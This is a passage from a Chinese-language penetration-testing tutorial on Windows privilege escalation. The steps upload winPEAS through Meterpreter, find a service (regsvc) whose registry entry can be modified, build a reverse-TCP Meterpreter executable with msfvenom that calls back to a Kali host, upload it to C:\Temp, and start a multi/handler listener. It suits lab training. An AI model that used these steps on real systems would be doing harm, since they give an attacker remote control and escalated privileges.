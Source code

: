     图 9.15 – winPEAS 二进制文件

    下载二进制文件到我们的 Kali 虚拟机后，我们需要将 **winPEAS.exe** 二进制文件传输到目标虚拟机。

1.  我们可以通过运行以下命令，将 **winPEAS.exe** 二进制文件通过 Meterpreter 传输到目标系统：

    **上传 /<PATH-To-BINARY>/winPEASx64.exe**

    如果使用的是标准命令行 shell，可以使用 **certutil** 工具将二进制文件传输到目标系统。

1.  上传 **winPEAS.exe** 二进制文件到目标系统后，可以通过运行以下命令枚举服务注册表值列表：

    **.\winPEASx64.exe servicesinfo**

    如下图所示，这将列出可以修改的服务注册表值。在我们的案例中，可以识别出具有所需权限的 **regsvc** 服务：

    ![图 9.16 – winPEAS 不安全的注册表服务    ](img/B17389_09_016.jpg)

    图 9.16 – winPEAS 不安全的注册表服务

    在这种情况下，我们可以修改服务并更改 **ImagePath** 为我们自定义 Meterpreter 可执行文件的路径。

1.  过程中的第二步是使用**MSFvenom**生成自定义的 Meterpreter 可执行文件。可以通过在 Kali 中运行以下命令完成：

    **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f exe > shell.exe**

1.  生成可执行文件后，我们可以将其上传到 Windows 临时目录，位置如下：

    C:\Temp

1.  现在，我们可以通过 Meterpreter 将自定义可执行文件上传到目标的临时目录，方法是运行以下命令：

    **上传 /home/kali/Desktop/shell.exe**

    如果使用的是标准命令行 shell，可以使用 **certutil** 工具将二进制文件传输到目标系统。

    如下图所示，这将把 Meterpreter 可执行文件上传到临时目录：

    ![图 9.17 – Meterpreter – 上传自定义可执行文件    ](img/B17389_09_017.jpg)

    图 9.17 – Meterpreter – 上传自定义可执行文件

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成：

    **use /exploit/multi/handler**

1.  下一步是指定我们用来创建自定义可执行文件的有效载荷，使用**MSFvenom**来完成。可以通过运行以下命令来实现：
